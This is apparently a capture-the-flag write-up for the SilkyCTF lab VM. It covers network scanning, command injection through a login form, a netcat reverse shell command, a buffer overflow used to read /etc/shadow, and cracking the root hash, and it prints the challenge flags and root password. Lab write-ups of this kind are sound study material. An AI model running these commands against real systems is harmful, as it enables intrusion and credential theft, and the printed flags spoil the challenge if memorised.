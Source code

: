 # PZY VM

This directory consists of challenges related to `PZY VM`.

Author: Xiaozhi and Ting Hui

## Silky CTF writeup 
Step 1: Click edit > virtual box editor, candidates should find their NAT network adapters ip address range. On my vmware, its 192.168.11.0.

Step 2: To identify SilkyCTF VM’s ip address, use the nmap -sn 192.168.11.0/24 to view the active ip address. To validate which ip address belongs to the SILKYCTF VM, use the nmap -A <ip address> to view the open ports as well as the operating system of the ip address.
  

Step 3: Based on the nmap scan above, candidates will be able to see that port 80 is open. When entering the webpage 192.168.11.131 into mobzilla firefox, candidates will see this page.
 
To check for any hidden directory in the apache server, use the dirburster command: 
dirb http://192.168.11.131/ .
 
Step 4:When entering http://192.168.11.131/admin.php,
It greets us with a login button , when clicked, it shows a pop-up login page.
 
Page after a wrong credential is entered.
 








Step 5: Let’s test for some command vulnerability. Some attacks that come to mind when attacking a webpage:
•	SQL injection
•	Cross site scripting
•	Local File intrusion (LFI) /command injection
When entering ls into username field and password =passwd,
We get the following:
 
 
It looks like the apache server has a LFI vulnerability, 


Step 6) Using the login form, I used ls command in silky’s home directory to check if there are any hidden clues.
 
 

It shows that there is a file named flag.txt in silky home directory. 








Step 7) Now to get the flag, use the cat command in the login form.
 
 
Flag : d68815f2afbc48a2a717de2f35478600








Step 8) Next, execute a python reverse shell to get a reverse connection. First set up the netcat listener using nc -lvp 4444 on the kali machine.
 
Then create a reverse shell to send a bash shell from the apache server by issuing the command in the login form:
/bin/nc 192.168.11.130 4444 -e /bin/bash
 
Check the kali machine:
 



Step 9) Next add a python command to upgrade the shell into a linux Debian shell.
python -c ‘import pty;pty.spawn(“/bin/bash”)’
 

Step 10) Based on the screenshot in step 6, there was an unusual binary file in silky’s home directory named cat_shadow. By using the ls -alh command in silky’s home directory, it is a file that is owned by root.
 

Step 11) On execution, the file is checking HEX value, which would make it seem vulnerable to buffer overflow vulnerability.
 

Step 12) Create a simple python script to allow an buffer overflow attack. In this script, write 64 bad characters of “A” and then adds the value of “0x496c5962” in little-endian format and provide the result as input to the “cat_shadow” file and allow us to read the “/etc/shadow” file.
The script is as follows and is used like this:
 
Step 12) Copy the hashes into a txt file and use john to decode the password. This would get you the password for root. This may take some time. 
 
Step 13) Once done, john should show that the password for root is greygrey. Now using the su command, log into root and get the flag.
 
Root flag : d1f258a6ec26dffbbdec79f68890a5e8



